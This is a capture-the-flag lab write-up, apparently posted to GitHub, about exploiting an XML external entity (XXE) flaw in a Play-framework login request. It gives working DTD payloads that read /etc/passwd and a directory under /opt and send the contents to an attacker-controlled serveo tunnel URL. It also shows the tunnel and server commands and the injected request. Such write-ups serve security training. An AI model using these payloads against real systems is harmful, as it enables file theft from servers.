









## Re-Product

login request



This lab to Play XML, should I try some payload XXE injection

Serve dtd File using 

python serv file local

> python -m http.server 3000

Serveo to publish python server

> ssh -R nvth:80:localhost:3000 serveo.net

DTD file below

```xml
<?xml version="1.0"?>
    <foo>bar</foo>
``` 
Server throw 400 HTTP Code

Successfully XML retrieving





create payload look like this, i named this payload `exploit.dtd`

DTD file 

```dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://e70fae09c983162cdfcbcee35c9b5fbd.serveo.net/?%p1;'>">
%p2;
```

on Burpsuite, after send Request to confirm XXE vulnerable, I modified it to retrieving content.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "https://e70fae09c983162cdfcbcee35c9b5fbd.serveo.net/exploit.dtd">
<foo>&e1;</foo>
```
Serv the file with `serveo` and `python server` to retrieving data `/etc/passwd` from server


showing etc/pass/




I try retrieving this account `play` user



Modify DTD payload `etc/passwd` to `/otp/play`

its named `exploit2.dtd`

```dtd
<!ENTITY % p1 SYSTEM "file:////opt/play-2.1.3">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://e70fae09c983162cdfcbcee35c9b5fbd.serveo.net/?%p1;'>">
%p2;
```

we got here some file, I am trying to get the flag.



URL decode 



```h
GET /?CONTRIBUTING.md
framework
play
play.bat
README.md
repository
xxe
```

continue retriev all directory

Finally, i got that the `secret url`



Finished this lab 



## Reference
https://portswigger.net/web-security/xxe